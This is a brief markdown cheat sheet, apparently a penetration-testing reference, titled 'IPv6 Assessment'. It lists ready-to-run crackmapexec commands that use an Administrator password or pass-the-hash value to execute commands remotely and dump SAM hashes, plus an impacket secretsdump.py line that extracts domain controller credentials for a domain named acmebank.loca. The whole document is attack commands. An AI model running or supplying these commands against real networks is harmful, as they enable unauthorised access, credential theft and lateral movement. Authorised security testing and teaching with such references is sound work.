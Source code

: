 ### IPv6 Assessment
| for Example  |
| ------------- |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "Hash" --sam |
|crackmapexec cme-hosts.txt -u Administrator -H "Hash" --sam |
|crackmapexec 2001:db7::1234:1 -u Administrator -H "Hash" -x "hostname"|
|python secretsdump.py -hashes "Hash" -just-dc acmebank.loca/Administrator@2001:db7::1234:1 |
|crackmapexec 2001:db7::1234:1 -u Administrator -p 'Passw0rd' -x "ipconfig" |
